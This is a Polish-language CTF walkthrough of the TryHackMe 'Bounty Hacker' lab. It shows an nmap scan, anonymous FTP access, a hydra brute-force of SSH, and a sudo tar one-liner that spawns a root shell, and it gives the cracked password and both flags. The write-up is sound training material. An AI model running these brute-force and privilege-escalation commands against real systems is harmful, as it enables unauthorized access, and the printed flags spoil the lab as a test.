










# Bounty Hacker
IP=10.10.215.100

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.215.100
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-05 11:48 EDT
Nmap scan report for 10.10.215.100
Host is up (0.060s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.57 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80, jednak nie ma tam nic ciekawego:



### Port 21
Przechodzimy do sprawdzenia portu 21, ponieważ logowanie Anonymous jest dozwolone. Logujemy się do systemu jako "Anonymous" i pobieramy wszystkie pliki:



Widzimy, że pliki zawierają listę haseł oraz notatkę napisaną przez użytkownika "lin":



### Port 22

Przeprowadzamy atak na serwis SSH za pomocą narzędzia hydra:

```
hydra -l lin -P /home/kali/locks.txt ssh://10.10.215.100
```



Logujemy się do serwisu SSH:

```
lin:RedDr4gonSynd1cat3
```



Odczytujemy pierwszą flagę z pliku user.txt:



```
THM{CR1M3_SyNd1C4T3}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika lin w systemie:



Widzimy, że użytkownik lin jest w stanie wykonać komendę "tar", jako root. W celu zwiększenia uprawnień wykorzystujemy exploit ze strony [gtfobins](https://gtfobins.github.io/gtfobins/tar/):



```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Po wpisaniu komendy uzyskujemy uprawnienia root'a:



Odczytujemy drugą flagę z pliku root.txt:



```
THM{80UN7Y_h4cK3r}
```

Do zobaczenia na kolejnych CTF-ach!
